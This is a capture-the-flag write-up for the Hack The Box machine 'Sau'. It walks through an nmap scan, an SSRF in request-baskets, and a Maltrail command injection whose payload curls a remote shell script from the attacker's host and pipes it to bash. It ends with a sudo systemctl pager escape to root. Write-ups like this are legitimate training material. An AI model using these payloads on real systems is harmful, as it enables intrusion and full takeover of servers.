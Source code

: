 # Sau(HTB)

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/0.png)

# NMAP

```bash
# Nmap 7.93 scan initiated Thu Jan  4 23:10:22 2024 as: nmap -sC -sV -oA nmap/sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 04 Jan 2024 15:10:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=1/4%Time=6596CA67%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 23:11:55 2024 -- 1 IP address (1 host up) scanned in 93.21 seconds
```

# Recon

Looking at the NMAP results we see that 3 ports are open. Port 22, 80 and 55555 are all open. However, port 80 is filtered meaning that the port is open but it is inaccessible externally. My first guess when I saw that filtered port in the NMAP result was that we would most likely have to find a SSRF (Server-Side Request Forgery) to elicit requests to port 80.  With that in mind I went to check out the web server that is running on port 55555.

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/1.png)

Visiting port 55555 brings us to this webpage. From looking at the page we learn that this webpage is just a simple HTTP request bin that collects and intercepts HTTP requests. 

Lets Create a basket and test out the website!

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/2.png)

If we now send a curl request to the URL of our basket

```bash
curl http://10.10.11.224:5555/utslgxu
```

we get a record of our request.

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/3.png)

# USER

Looking at the settings for my basket we find a very promising settings that could potentially lead to SSRF.

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/4.png)

The **`Forward URL`** configuration allows the user to forward the http request to another URL and by enabling the **`Proxy Response`** we could look at the response of the request that has been forwarded to another URL. From what we’ve seen, this feature basically works like a VPN for us. 

We configure the basket to forward our request to `**[http://127.0.0.1:80](http://127.0.0.1:80)`** and show us the response.

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/5.png)

Now let’s try to hit the port 80 that we couldn’t previously access. 

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/6.png)

We get greeted by the web page that is running on port 80. 

> *Since only the HTML is rendered and not the JS hence why the page looks so odd*
> 

Looking at the web page we see that it is running a service called Maltrail. A quick google search will reveal that Maltrail is an open sourced malicious traffic detection system. Googling the version will also reveal a OS Command Injection vulnerability affecting the version that is running on this instance.

```python
subprocess.check_output("logger -p auth.info -t \"%s[%d]\" \"%s password for %s from %s port %s\"" % (NAME.lower(), os.getpid(), "Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1]), stderr=subprocess.STDOUT, shell=True)
```

This line of code is the culprit for this OS Command Injection. From my understanding, the cause of this vulnerability is due to the fact that the `**shell=TRUE`** was set and our user input isn’t properly sanitized before being inserted into the command. Therefore, an attacker could just insert their own commands leading to Command injection.

Now that we are aware of the vulnerability, lets exploit it to get a SHELL on the machine.

```bash
curl http://10.10.11.224/utslgxu --data 'username=;`curl 10.10.14.123:8000/shell|bash`'
```

# Privilege Escalation

Now that we are on the box as the user puma, we can do our usual privilege escalation enumeration. Starting with `**sudo -l**`

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/7.png)

We can see that we can run systemctl with sudo. A quick GTFO bin search will show a way to exploit this.

> [https://gtfobins.github.io/](https://gtfobins.github.io/)
> 

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/8.png)

Basically when `**systemctl**` is ran with sudo the default pager `**less`** will be ran with sudo privileges as well. 

> A pager is **a tool for displaying the contents of files or other output on the terminal, in a user friendly way, across several screens if needed**.
> 

And when we get put into the pager in this case it is `**less` . W**e can spawn a shell with the `**!sh**` command when we are in the less pager, giving us a shell as the root user!

![Untitled](Sau(HTB)%20c0e4721f17c64fd7b7b84a6ff04b6430/9.png)
